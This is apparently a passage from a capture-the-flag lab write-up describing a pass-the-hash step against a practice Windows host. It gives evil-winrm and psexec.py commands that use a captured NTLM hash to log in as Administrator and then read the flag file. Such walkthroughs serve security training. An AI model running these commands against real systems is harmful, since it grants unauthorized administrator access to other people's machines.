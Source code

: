 We could try to crack the hash, or use pass-the-hash attack with "psexec" or "evil-winrm", wmiexec, etc

{% code overflow="wrap" lineNumbers="true" %}
```bash
# using evil-winrm.
evil-winrm -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d -i 10.10.68.222 -N
# using wmiexec.

# using psexec.
psexec.py vulnet-rst.local/administrator@10.10.68.222 -hashes aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d
```
{% endcode %}

Then cat the system.txt flag.

